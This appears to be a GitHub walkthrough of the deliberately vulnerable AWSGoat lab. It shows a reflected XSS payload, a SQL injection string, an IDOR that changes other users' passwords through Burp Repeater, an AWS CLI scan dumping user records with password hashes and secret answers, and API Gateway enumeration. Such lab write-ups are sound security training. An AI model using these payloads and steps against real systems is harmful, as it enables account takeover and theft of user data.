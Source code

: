 # Vulnerabilities Exploited

### Reflected XSS

On Home Page search bar type: <img src="A" onerror=alert('XSS')>  

![Screenshot_2023-10-12_10_40_55](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/60b9e024-8a18-41f2-bba5-a3a2a4ccc517)

### SQL Injection

Once you logged in go to Dashboard > Users, and type    ' or '1'='1'    
And it will retrieve all users.  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/8e31bb32-6dbc-4e1b-9421-5172e3c14e26)

### Insecure Direct Object Reference

If we go and change our password and open the Inspect Tools we can see that an id is being passed:

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/e7111cd7-3500-404e-acea-544ed331a82d)

This means that we may be able to change the other users passwords. For this let's go to Burp Suite, open the explorer and when we get to this form on the dashboard we'll send the request to the Repeater:  
For this go to Burp Suite > Proxy > Open Browser (keep the intercept off until you're in the same form) > Turn on Interception.  
Change the password (example: ola2) and click the button change password.   
Forward the first request that comes up and now click on the request with the right button and send it to repeater:  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/51086602-5c02-4688-803b-33d0c3af725c)

Once you're in the repeater change the ID field to an id from 1-7 which are the other users, and then forward the request:  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/c5599bcf-bfeb-4c1d-81fa-ad22f3d7db56)

Now that we've changed successfully a password we have 2 options.  
1st: try all possible users since they aren't many and eventually we'll find out who is id 1  
2nd: list all users with the command:  
````
aws dynamodb scan --table-name blog-users --region us-east-1
````
and it will return all the information of the users, including this:

````
{
            "secretQuestion": {
                "S": "What is your favourite sport?"
            },
            "creationDate": {
                "S": "2022-01-25T00:00:00.000Z"
            },
            "address": {
                "S": "Ap #662-2304 Phasellus Ave"
            },
            "secretAnswer": {
                "S": "Football"
            },
            "email": {
                "S": "dolor.fusce@aol.ca"
            },
            "country": {
                "S": "Germany"
            },
            "name": {
                "S": "Naida Dotson"
            },
            "authLevel": {
                "S": "0"
            },
            "password": {
                "S": "$2a$10$ru0QWFM7BFe.e470jT1sz.iMGxjUOrXyyClc9301mcw.fEbcUk/Ta"
            },
            "username": {
                "S": "naidadotson"
            },
            "id": {
                "S": "1"
            },
            "userStatus": {
                "S": "active"
            },
            "phone": {
                "S": "329938731"
            }
        }
````

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/00623430-9280-4119-aea7-20c0ab0b8f80)

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/91fbedd9-bafb-42c7-8c06-d9a07d8d08e4)


### Sensitive Data Exposure 

````
┌──(kali㉿kali)-[~/Labs/AWSGoat/module1]
└─$ aws apigateway get-resources --rest-api-id uklmns71xk --region us-east-1
{
    "items": [
        {
            "id": "09tmbm",
            "parentId": "sdtw1na2qa",
            "pathPart": "login",
            "path": "/login",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "1z2wgh",
            "parentId": "sdtw1na2qa",
            "pathPart": "ban-user",
            "path": "/ban-user",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "2okpqe",
            "parentId": "sdtw1na2qa",
            "pathPart": "change-profile",
            "path": "/change-profile",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "36qlrh",
            "parentId": "sdtw1na2qa",
            "pathPart": "unban-user",
            "path": "/unban-user",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "3ze9li",
            "parentId": "sdtw1na2qa",
            "pathPart": "register",
            "path": "/register",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "4dc0f6",
            "parentId": "sdtw1na2qa",
            "pathPart": "search-author",
            "path": "/search-author",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "5rqhcw",
            "parentId": "sdtw1na2qa",
            "pathPart": "xss",
            "path": "/xss",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "5v5vi2",
            "parentId": "sdtw1na2qa",
            "pathPart": "list-posts",
            "path": "/list-posts",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "5y7rs1",
            "parentId": "sdtw1na2qa",
            "pathPart": "change-auth",
            "path": "/change-auth",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "6kab1r",
            "parentId": "sdtw1na2qa",
            "pathPart": "user-details-modal",
            "path": "/user-details-modal",
            "resourceMethods": {
                "OPTIONS": {},
                "POST": {}
            }
        },
        {
            "id": "b9rfza",
            "parentId": "sdtw1na2qa",
            "pathPart": "dump",
            "path": "/dump",
            "resourceMethods": {
                "GET": {},
                "OPTIONS": {}
            }
        },
````

If we look carefully we find a GET Method in the API called /dump, so let's search for it and see what does it contain:  
https://uklmns71xk.execute-api.us-east-1.amazonaws.com/dump  
If we search for this we will get a Forbidden error, but we know that this endpoint is accessible, and with a little search we can see some common paths for the api, one of them being /v1 or /v2: https://stackoverflow.com/questions/72339224/aws-v1-vs-v2-api-for-listing-apis-on-aws-api-gateway-return-different-data-for-t     

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/ad819058-567d-40d2-b83b-9c54313f9267)
